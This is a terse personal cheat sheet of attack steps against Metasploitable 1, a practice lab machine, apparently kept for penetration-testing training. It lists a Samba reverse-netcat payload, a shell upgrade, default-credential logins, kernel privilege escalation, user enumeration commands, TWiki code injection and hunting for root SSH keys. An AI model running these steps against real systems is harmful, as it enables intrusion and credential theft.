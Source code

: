 ### METASPLOITABLE 1 ###

# Samba vulnerability
-set PAYLOAD cmd/unix/reverse_netcat
-python -c 'import pty;pty.spawn("/bin/bash")'

# Tomcat
-tomcat default creds

# Privilege Escalation
linux kernel exploit (udev link)

# mySQL database
postgres sql vuln (default creds)

# Web App
dirbuster the port 80 (dircbuster or dirb)
## More ways to PWN!! ##
-enum4linux to enumerate users
-!! | grep 'user:' | cut -d'[' -f2 | cut -d']' -f1 > userlist
-smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t 10.11.1.10 > smtp_users
-cat smtp_users | grep exists | cut -d" " -f2 >> users
-linux command: cut
-twikidblib informational disclosure
-twiki php code injection / execution
-low priv shell -> look for ssh keys!
-ls -lsart /root/.ssh
-cat /root/.ssh/authorized_keys
grep -lr
